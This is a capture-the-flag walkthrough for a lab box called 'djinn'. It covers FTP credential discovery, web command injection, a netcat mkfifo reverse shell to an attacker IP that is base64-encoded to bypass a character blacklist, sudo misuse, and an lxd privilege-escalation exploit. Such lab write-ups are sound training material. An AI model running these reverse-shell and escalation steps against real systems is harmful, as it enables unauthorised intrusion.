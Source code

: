 # djinn
> Intermediate level vulnerable box.

# ⬇ Start ⬇
## Recon
### Nmap
```
sudo nmap -A -T4 -p- 10.10.214.152
```
[nmap_log](nmap.txt)  
Open ports are:
- 21 - ftp with anonymous login
- 22
- 1337 - some game
- 7331 - web 

### Ftp
We got 3 files. `creds.txt` - creds for nitu `nitu:81299`,  
`game.txt` - game on port `1337`  
and `message.txt` - a message about some guy went for a holiday and some other needs to take care of his/her work.  
![oh yes](https://media.giphy.com/media/21I7j6xSyuTHUNiRdp/giphy.gif)

### Dirsearch
![dirsearch](dirsearch.png)  
We got code execution in the dir!!!  
![ez](https://media.giphy.com/media/Rl9Yqavfj2Ula/giphy.gif)  
For example if we type `id` and press execute we got the *403 page* BUT there is a *lil black text* says we are **www-data**!  
![rce](rce.png)

## Getting a shell
Lets exploit this ***RCE***!  
We just need a reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f
```
We got *Wrong choice of words* that means some chars are blacklisted
Blacklisted chars are: `.`, `/`, `$` and `*`

We have to ***bypass*** the blacklist!  
We can encrypt our revshell as base64 and just echo on the box then decrypt then just execute.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f" | base64

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==
```
Now we have to enter it to the wish textbox:
```
echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==" | base64 -d | bash
```
And we got the shell as `www-data`

## Going further, getting user
Look for interesting things in the files :D  
We got the *CREDS* variable from from the source!  
Update the shell to be able to use su:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Just su to nitish with the pw we got!  
![shell](shell.png)  
And we got the user flag from `/home/nitish/user.txt`  

## Privesc to sam
More recoooon!!  
![ah shit here we go again](https://media.giphy.com/media/8vIFoKU8s4m4CBqCao/giphy.gif)  
Nah we dont have to do too much just run `sudo -l` ;)  
![sudo](sudo.png)  
So we can run this as user `sam` without any password!!
```
sudo -u sam /usr/bin/genie
```
Lets see a man page first or a help:
```
man genie
```
or `sudo -u sam /usr/bin/genie -h`
In the man page we can see an extra option `-cmd`  
Lets try it!
```
sudo -u sam /usr/bin/genie -cmd asd
```
![shell_sam](shell_sam.png)  
AAAAnd we got a shell as **sam**  

## Privesc to root
Get a normal shell with the *python pty* trick!  
Then just `sudo -l` as always :D  
![sudo_sam](sudo_sam.png)

```
sudo -u root /root/lago
```
Nothing interesting. This program is just roasting us xD

### Lets run a linenum!
We got in the last line that we have the lxd group and maybe we can do some nasty things with it  
So head over to [exploit-db](exploit-db.com) and search for lxd!  
We got only [one](https://www.exploit-db.com/exploits/46978)  
Lets try it ! :D  

### Getting apt with docker :D
Just pull ubuntu and execute `bash build-alpine` there.
```
docker pull ubuntu
sudo docker run -it --rm -v $(pwd):/data library/ubuntu /bin/bash

cd data
bash build-alpine
```
Now we have the `alpine*.tar.gz` file for the exploit.

### Exploiting
Upload the `.tar.gz` file to the box and run the exploit!
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
We got some permission errors so go back to **nitish's** profile and chmod 777 everything in `/home/nitish/.config`
```
su nitish
cd ~
chmod -R 777 .config
exit
```
Just run the exploit:
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
![damn](https://media.giphy.com/media/voOhKPgzYsyPu/giphy.gif)  
![root](root.png)

# Got root and the root flag from `/mnt/root/root/proof.sh`
![proof](proof.png)
